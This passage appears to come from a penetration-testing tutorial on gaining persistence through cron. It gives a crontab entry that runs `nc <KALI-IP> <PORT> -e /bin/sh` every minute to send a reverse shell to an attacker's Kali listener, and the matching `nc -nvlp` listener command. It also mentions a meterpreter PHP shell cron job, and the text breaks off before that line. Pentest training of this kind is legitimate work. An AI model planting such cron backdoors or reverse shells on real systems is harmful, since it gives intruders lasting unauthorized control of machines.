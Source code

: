 Cron is a time-based service that runs applications, scripts, and other commands repeatedly on a specified schedule.

Cron provides you with the ability to run a program, script, or command periodically at whatever time you choose, these Cron jobs are then stored in the “crontab” file.

    We can add a cron job on the target system by editing the crontab file, this can be done by running the following command on the target system:

     crontab -e

    We can now add a new cron job that will execute a netcat command every minute, this can be done by adding the following line to the crontab file:

     * * * * * nc <KALI-IP> <PORT> -e /bin/sh
     

    As shown in the following screenshot, this cron job will connect to a netcat listener every minute.
     
![](vx_images/133701113513579.png)


    crontab line with netcat command

    After adding the cron job, you will need to save the file.

    We can now set up our netcat listener by running the following command on Kali:

     nc -nvlp <PORT>

    After one minute, the cron job will be executed and you should receive a reverse shell on your netcat listener as shown in the following screenshot.

![](vx_images/423872124639415.png)

    netcat listener receiving crontab netcat connection

    Alternatively, instead of using netcat to obtain a reverse shell, we can create a cron job that executes the PHP meterpreter shell we created and uploaded in the previous section. This can be done by adding the following line to the crontab file:
